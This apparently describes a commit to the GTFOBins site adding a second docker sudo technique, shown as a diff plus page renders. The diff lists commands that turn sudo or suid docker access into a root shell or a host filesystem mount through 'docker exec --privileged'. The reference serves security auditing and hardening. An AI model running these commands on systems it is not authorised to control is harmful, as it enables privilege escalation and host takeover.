

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/docker.md, in a window 1280 px wide and 900 px high, scrolled down 881 px. Shown: the top 869 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1621 px from its top, so only the background shows below that.

Commit message:
Added alternative sudo for docker

```diff
--- a/_gtfobins/docker.md
+++ b/_gtfobins/docker.md
@@ -26,6 +26,11 @@ functions:
   sudo:
     - description: The resulting is a root shell.
       code: sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
+    - description: Using `docker exec` with `--privileged` flag allows to mount the host filesystem, thereby obtaining unrestricted read/write access to the host.
+      code: |
+        CONTAINER_ID=id_of_container
+        sudo docker exec -it --privileged --user root $CONTAINER_ID bash
+        mount /dev/sda1 /mnt/
   suid:
     - description: The resulting is a root shell.
       code: ./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
